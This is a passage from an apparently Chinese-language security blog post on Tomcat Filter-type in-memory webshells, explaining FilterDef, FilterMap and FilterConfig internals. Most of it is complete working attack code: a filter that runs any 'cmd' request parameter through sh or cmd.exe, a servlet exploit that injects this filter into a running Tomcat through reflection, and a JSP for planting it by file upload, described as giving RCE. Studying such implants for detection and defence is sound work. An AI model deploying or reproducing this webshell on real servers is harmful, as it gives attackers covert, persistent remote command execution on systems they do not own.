4. 实例化一个FilterMap类，将我们的 Filter 和 urlpattern 相对应，调用addFilterMapBefore方法存放到StandardContext.filterMaps中(一般会放在首位)
5. 通过反射获取filterConfigs，实例化一个FilterConfig(ApplicationFilterConfig)类，传入StandardContext与filterDefs，存放到filterConfig中

这里需要注意一个问题就是在addFilterMap中的一个validateFilterMap方法



这里会根据filtername去查找对应的filterdef，不然的话会抛出一个报错，也就是说，我们得先写一个filterdef，然后再修改`filterMap`

这里有个坑就是别忘了设置Dispatcher，这里我们设置DispatcherType.REQUEST.name()即可

Servlet 规范定义了几种 **分发类型**，也就是一个请求进入 Filter/Servlet 链的不同方式：

- **`REQUEST`**
   正常的 HTTP 请求（浏览器直接访问 URL 时）。
- **`FORWARD`**
   通过 `RequestDispatcher.forward()` 转发。
- **`INCLUDE`**
   通过 `RequestDispatcher.include()` 包含另一个资源。
- **`ERROR`**
   进入错误页面时（`<error-page>` 配置）。
- **`ASYNC`**
   异步请求（Servlet 3.0+ 支持）。

```
public void setDispatcher(String dispatcherString) {
String dispatcher = dispatcherString.toUpperCase(Locale.ENGLISH);

if (dispatcher.equals(DispatcherType.FORWARD.name())) {
// apply FORWARD to the global dispatcherMapping.
dispatcherMapping |= FORWARD;
} else if (dispatcher.equals(DispatcherType.INCLUDE.name())) {
// apply INCLUDE to the global dispatcherMapping.
dispatcherMapping |= INCLUDE;
} else if (dispatcher.equals(DispatcherType.REQUEST.name())) {
// apply REQUEST to the global dispatcherMapping.
dispatcherMapping |= REQUEST;
}  else if (dispatcher.equals(DispatcherType.ERROR.name())) {
// apply ERROR to the global dispatcherMapping.
dispatcherMapping |= ERROR;
}  else if (dispatcher.equals(DispatcherType.ASYNC.name())) {
// apply ERROR to the global dispatcherMapping.
dispatcherMapping |= ASYNC;
}
}
```

我们先简单写一个带有恶意代码的filter过滤器

```java
package com.example.Filter_Memshell;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.io.PrintWriter;
import java.util.Scanner;

public class Test_POC implements Filter {

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("TestFilter init");
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) request;
        HttpServletResponse resp = (HttpServletResponse) response;
        String cmd = req.getParameter("cmd");

        if(cmd != null) {
            boolean isLinux = true;
            String osType = System.getProperty("os.name").toLowerCase();
            if (osType != null && osType.contains("win") ) {
                isLinux = false;
            }
            String[] cmdArray = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe","/c", cmd};//根据操作系统选择shell
            InputStream in = Runtime.getRuntime().exec(cmdArray).getInputStream();
            Scanner scanner = new Scanner(in).useDelimiter("\\A");  //使用Scanner读取InputStream内容
            String output = scanner.hasNext() ? scanner.next() : "";    //监测是否有内容
            PrintWriter out = resp.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
    }

    @Override
    public void destroy() {
        System.out.println("TestFilter destroy");
    }
}
```

然后改一下web.xml配置信息

```xml
    <filter>
        <filter-name>TestPOC</filter-name>
        <filter-class>com.example.Filter_Memshell.Test_POC</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>TestPOC</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
```

启动服务器后访问传入cmd命令



然后我们尝试构造添加一个filter

首先就是获取StandardContext

需要反射去获取

```java
//获取StandardContext
  ServletContext servletContext = request.getSession().getServletContext();
  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
  Field stdcx = applicationContext.getClass().getDeclaredField("context");
  stdcx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdcx.get(applicationContext);
```

然后就是获取filterConfigs

```java
// 获取filterConfigs
  Field filterConfigField = standardContext.getClass().getDeclaredField("filterConfigs");
  filterConfigField.setAccessible(true);
  Map filterConfigs = (Map) filterConfigField.get(standardContext);
```

然后需要定义一个filter

```java
String filterName = "FilterShell";
  if (filterConfigs.get(filterName) == null) {
    Filter filter = new Filter() {
      @Override
      public void init(FilterConfig filterConfig) throws ServletException {

      }

      @Override
      public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd = servletRequest.getParameter("cmd");
        if (cmd != null){
          boolean isLinux = true;
          String osTyp = System.getProperty("os.name");
          if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
          }
          String[] cmdArray = isLinux ? new String[]{"sh","-c",cmd} : new String[]{"cmd.exe","/c",cmd}; //根据操作系统选择shell
          //执行命令并获取命令输出
          InputStream in = Runtime.getRuntime().exec(cmdArray).getInputStream();
          Scanner s = new Scanner(in).useDelimiter("\\a");  //使用 Scanner 读取 InputStream 的内容
          String output = s.hasNext() ? s.next() : "";  //如果有内容就读取，否则为空字符串
          PrintWriter out = servletResponse.getWriter();  //获取 Servlet 输出流，用于返回给客户端（浏览器）
          out.println(output);  //打印输出
          out.flush();
          out.close();
        }
        filterChain.doFilter(servletRequest,servletResponse);
      }

      @Override
      public void destroy() {

      }
    };
```

还需要再配置FilterDef和FilterMaps

```java
	//反射获取FilterDef
    Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");  
	Constructor declaredConstructors = FilterDef.getDeclaredConstructor();  
	FilterDef filterDef = (FilterDef) declaredConstructors.newInstance(); 
    filterDef.setFilter(filter);
    filterDef.setFilterName(filterName);
    filterDef.setFilterClass(filter.getClass().getName());
    standardContext.addFilterDef(filterDef);

    // FilterMap
	Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");  
	Constructor<?> declaredConstructor = FilterMap.getDeclaredConstructor();  
	FilterMap filterMap = (FilterMap)declaredConstructor.newInstance(); 
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(filterName);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    standardContext.addFilterMapBefore(filterMap);
```

最后将FilterDef和filterMap添加到ApplicationFilterConfig中

```java
//反射获取ApplicationFilterConfig
Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");  
Constructor<?> declaredConstructor1 = ApplicationFilterConfig.getDeclaredConstructor(Context.class,FilterDef.class);  
declaredConstructor1.setAccessible(true);  
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) declaredConstructor1.newInstance(standardContext,o);  
filterConfigs.put(FilterName,filterConfig);  
response.getWriter().write("Success");
```

### 最终的EXP

```java
package com.example.Filter_Memshell;


import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.io.PrintWriter;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.Map;
import java.util.Scanner;

@WebServlet("/FilterPOC")
public class FilterPOC extends HttpServlet {


    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        try {
            //获取StandardContext
            ServletContext servletContext = req.getSession().getServletContext();
            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
            Field stdcx = applicationContext.getClass().getDeclaredField("context");
            stdcx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdcx.get(applicationContext);

            // 获取filterConfigs
            Field filterConfigField = standardContext.getClass().getDeclaredField("filterConfigs");
            filterConfigField.setAccessible(true);
            Map filterConfigs = (Map) filterConfigField.get(standardContext);

            String filterName = "FilterShell";
            Filter filter = null;
            if (filterConfigs.get(filterName) == null) {
                filter = new Filter() {
                    @Override
                    public void init(FilterConfig filterConfig) throws ServletException {
                    }

                    @Override
                    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                        String cmd = servletRequest.getParameter("cmd");
                        if (cmd != null) {
                            boolean isLinux = true;
                            String osTyp = System.getProperty("os.name");
                            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                                isLinux = false;
                            }
                            String[] cmdArray = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd}; //根据操作系统选择shell
                            //执行命令并获取命令输出
                            InputStream in = Runtime.getRuntime().exec(cmdArray).getInputStream();
                            Scanner s = new Scanner(in).useDelimiter("\\a");  //使用 Scanner 读取 InputStream 的内容
                            String output = s.hasNext() ? s.next() : "";  //如果有内容就读取，否则为空字符串
                            PrintWriter out = servletResponse.getWriter();  //获取 Servlet 输出流，用于返回给客户端（浏览器）
                            out.println(output);  //打印输出
                            out.flush();
                            out.close();
                        }
                        filterChain.doFilter(servletRequest, servletResponse);
                    }

                    @Override
                    public void destroy() {
                    }
                };
            }
            //反射获取FilterDef
            Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
            Constructor declaredConstructors = FilterDef.getDeclaredConstructor();
            FilterDef filterDef = (FilterDef) declaredConstructors.newInstance();
            filterDef.setFilter(filter);
            filterDef.setFilterName(filterName);
            filterDef.setFilterClass(filter.getClass().getName());
            standardContext.addFilterDef(filterDef);

            // FilterMap
            Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
            Constructor<?> declaredConstructor = FilterMap.getDeclaredConstructor();
            FilterMap filterMap = (FilterMap) declaredConstructor.newInstance();
            filterMap.addURLPattern("/*");
            filterMap.setFilterName(filterName);
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            standardContext.addFilterMapBefore(filterMap);

            //反射获取ApplicationFilterConfig，构造方法将 FilterDef传入后获取filterConfig后，将设置好的filterConfig添加进去
            Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
            Constructor<?> declaredConstructor1 = ApplicationFilterConfig.getDeclaredConstructor(Context.class,FilterDef.class);
            declaredConstructor1.setAccessible(true);
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) declaredConstructor1.newInstance(standardContext,filterDef);
            filterConfigs.put(filterName,filterConfig);
            resp.getWriter().write("Success");

        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        } catch (NoSuchMethodException e) {
            throw new RuntimeException(e);
        } catch (InvocationTargetException e) {
            throw new RuntimeException(e);
        } catch (InstantiationException e) {
            throw new RuntimeException(e);
        }
    }
}

```

启动服务器后访问/FilterPOC






如果是打文件上传的话可以写一个jsp文件

### 文件上传打jsp

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%

  //获取StandardContext
  ServletContext servletContext = request.getSession().getServletContext();
  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
  Field stdcx = applicationContext.getClass().getDeclaredField("context");
  stdcx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdcx.get(applicationContext);

  // 获取filterConfigs
  Field filterConfigField = standardContext.getClass().getDeclaredField("filterConfigs");
  filterConfigField.setAccessible(true);
  Map filterConfigs = (Map) filterConfigField.get(standardContext);

  String filterName = "FilterShell";
  if (filterConfigs.get(filterName) == null) {
    Filter filter = new Filter() {
      @Override
      public void init(FilterConfig filterConfig) throws ServletException {

      }

      @Override
      public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd = servletRequest.getParameter("cmd");
        if (cmd != null){
          boolean isLinux = true;
          String osTyp = System.getProperty("os.name");
          if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
          }
          String[] cmdArray = isLinux ? new String[]{"sh","-c",cmd} : new String[]{"cmd.exe","/c",cmd}; //根据操作系统选择shell
          //执行命令并获取命令输出
          InputStream in = Runtime.getRuntime().exec(cmdArray).getInputStream();
          Scanner s = new Scanner(in).useDelimiter("\\a");  //使用 Scanner 读取 InputStream 的内容
          String output = s.hasNext() ? s.next() : "";  //如果有内容就读取，否则为空字符串
          PrintWriter out = servletResponse.getWriter();  //获取 Servlet 输出流，用于返回给客户端（浏览器）
          out.println(output);  //打印输出
          out.flush();
          out.close();
        }
        filterChain.doFilter(servletRequest,servletResponse);
      }

      @Override
      public void destroy() {

      }
    };

    //FilterDef
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(filterName);
    filterDef.setFilterClass(filter.getClass().getName());
    standardContext.addFilterDef(filterDef);

    // FilterMap
    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(filterName);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    standardContext.addFilterMapBefore(filterMap);


    //ApplicationFilterConfig
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
    filterConfigs.put(filterName, filterConfig);

    out.print("FilterMeInject Success !");
  }
%>

```

访问filtershell.jsp后成功加入filter过滤器，随便发送请求并传入cmd参数进行RCE就可以了



## su18师傅的方法

或者也可以参考su18师傅的方法：

- 调用 ApplicationContext 的 addFilter 方法创建 filterDefs 对象，需要反射修改应用程序的运行状态，加完之后再改回来；
- 调用 StandardContext 的 filterStart 方法生成 filterConfigs；
- 调用 ApplicationFilterRegistration 的 addMappingForUrlPatterns 生成 filterMaps；
- 为了兼容某些特殊情况，将我们加入的 filter 放在 filterMaps 的第一位，可以自己修改 HashMap 中的顺序，也可以在自己调用 StandardContext 的 addFilterMapBefore 直接加在 filterMaps 的第一位。

su18师傅是直接用addFilter去创建filterDefs对象，但是需要注意的是他分析的版本的tomcat7.x版本，其中的org.apache.catalina.core.ApplicationContext#addFilter是这样的



而我这里的tomcat9.0.108是这样的



状态标记的判断在tomcat9.x中集成为一个checkState方法

```java
    private void checkState(String messageKey) {
        if (!context.getState().equals(LifecycleState.STARTING_PREP)) {
            throw new IllegalStateException(sm.getString(messageKey, getContextPath()));
        }
    }
```

可以看到，addFilter方法中创建了一个 FilterDef 对象，将 filterName、filterClass、filter 对象初始化进去，使用 StandardContext 的 `addFilterDef` 方法将创建的 FilterDef 储存在了 StandardContext 中的一个 Hashmap filterDefs 中，然后 new 了一个 ApplicationFilterRegistration 对象并且返回，并没有将这个 Filter 放到 FilterChain 中，单纯调用这个方法不会完成自定义 Filter 的注册。并且这个方法判断了一个状态标记，如果程序以及处于运行状态中，则不能添加 Filter。

接着看到在 StandardContext 的 `filterStart` 方法中生成了 filterConfigs。

```java
    public boolean filterStart() {

        if (getLogger().isTraceEnabled()) {
            getLogger().trace("Starting filters");
        }
        // Instantiate and record a FilterConfig for each defined filter
        boolean ok = true;
        synchronized (filterDefs) {
            filterConfigs.clear();
            for (Entry<String,FilterDef> entry : filterDefs.entrySet()) {
                String name = entry.getKey();
                if (getLogger().isTraceEnabled()) {
                    getLogger().trace(" Starting filter '" + name + "'");
                }
                try {
                    ApplicationFilterConfig filterConfig = new ApplicationFilterConfig(this, entry.getValue());
                    filterConfigs.put(name, filterConfig);
                } catch (Throwable t) {
                    Throwable throwable = ExceptionUtils.unwrapInvocationTargetException(t);
                    ExceptionUtils.handleThrowable(throwable);
                    getLogger().error(sm.getString("standardContext.filterStart", name), throwable);
                    ok = false;
                }
            }
        }

        return ok;
    }
```

循环遍历我们的filterDefs，随后创建ApplicationFilterConfig对象并将filterDef存入

到此分析就算彻底结束了~下播下播

参考文章：

https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%AE%89%E5%85%A8/%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Filter%E5%9E%8B/

https://xz.aliyun.com/news/13078#24-filter%E5%AE%B9%E5%99%A8%E4%B8%8Efilterdefsfilterconfigsfiltermapsfilterchain

https://github.com/Y4tacker/JavaSec/blob/main/5.%E5%86%85%E5%AD%98%E9%A9%AC%E5%AD%A6%E4%B9%A0/Tomcat/Tomcat-Filter%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Filter%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC.md

https://drun1baby.top/2022/08/22/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-03-Tomcat-%E4%B9%8B-Filter-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/

https://su18.org/post/memory-shell/#filter-%E5%86%85%E5%AD%98%E9%A9%AC
